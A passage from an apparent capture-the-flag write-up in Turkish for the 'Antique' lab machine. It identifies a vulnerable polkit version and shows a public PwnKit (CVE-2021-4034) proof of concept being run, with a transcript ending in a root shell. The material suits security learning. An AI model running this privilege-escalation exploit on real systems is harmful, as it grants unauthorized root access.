 Önemli olan şu:

```
Version: 0.105-26ubuntu1.1
```

Datadog gönderisindeki bu tabloya göre, bu Ubuntu 20.04 focal'daki son savunmasız sürümdür:

![Pasted image 20250208175104.png](/img/user/Pasted%20image%2020250208175104.png)

#### Exploit

Bu kutu aslında [PwnKit](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034)'e karşı savunmasız. Bir POC exploit indireceğim (Joe [Ammond](https://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py)'dan bunu beğendim) ve Antique'e yükleyeceğim. Oradan, script'i çalıştırmak kadar basit:

```
lp@antique:/dev/shm$ python3 CVE-2021-4034.py
[+] Creating shared library for exploit code.
[+] Calling execve()
# id
uid=0(root) gid=7(lp) groups=7(lp),19(lpadmin)
```


